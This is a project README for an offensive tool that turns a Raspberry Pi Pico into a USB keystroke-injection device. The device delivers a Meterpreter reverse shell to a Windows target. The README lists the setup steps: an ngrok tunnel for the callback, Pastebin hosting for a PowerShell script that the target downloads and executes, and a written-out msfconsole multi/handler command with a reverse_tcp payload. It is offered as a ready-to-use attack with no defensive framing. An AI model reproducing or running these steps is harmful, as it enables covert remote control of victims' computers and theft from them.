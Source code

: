 # Pico_Rubber_Meterpreter
> Tested on XFCE Kail
 
## Requirements
- ngrok authtoken
- pico / pico w for pico-ducky
- pastebin free developer api key


# Setup

## Required python module
Install python `requests` module by  
```
pip3 install requests
```

## Ngrok

Install ngrok , for APT use command below
```
 curl -s https://ngrok-agent.s3.amazonaws.com/ngrok.asc | sudo tee /etc/apt/trusted.gpg.d/ngrok.asc >/dev/null && echo "deb https://ngrok-agent.s3.amazonaws.com buster main" | sudo tee /etc/apt/sources.list.d/ngrok.list && sudo apt update && sudo apt install ngrok
```

Go [ngrok](https://ngrok.com/) for sign up free account  
`Dasd board` > `Getting Started` > `SetUp & Installation` > `2. Connect your account`  
Copy and run the command that looks like  
`ngrok config add-authtoken THIS_IS_YOUR_TOKEN`


## Pastebin
> For pasting powershell script (ps1) that will be download and execute on target machine

Go [pastebin](https://pastebin.com/) for sign up free account  
`API` > `Your Unique Developer API Key` > `COPY YOUR API KEY`

In `main.py`  
found this code and paste your pastebin api key
```
PASTEBIN_DEV_API_KEY = "YOUR_API_KEY"
```


## Pico-Ducky
[Pico-Ducky full-install-instructions](https://github.com/dbisu/pico-ducky#full-install-instructions)  
[Setup mode](https://github.com/dbisu/pico-ducky#setup-mode-1)  
[enable/disable USB mode](https://github.com/dbisu/pico-ducky#usb-enabledisable-mode-1)

# Usage
Clone this repo  
```
git clone https://github.com/powenn/Pico_Rubber_Meterpreter.git
```
Mount pico / pico w in USB enable mode and setup mode  
```
cd  Pico_Rubber_Meterpreter && python3 main.py
```
Enter port for ngrok , for example : `4444`  
A new terminal window should show up  
Copy and paste `ngrok url`  which display in new terminal window , for example : `0.tcp.jp.ngrok.io:11111`  
Waiting for msfconsole window show up  
If failed , copy and run msfconsole command manually , the commnad looks like below  
`msfconsole -q -x 'use multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost 0.0.0.0;set lport 5556;exploit'`  
If handler not running , Enter `run` for run
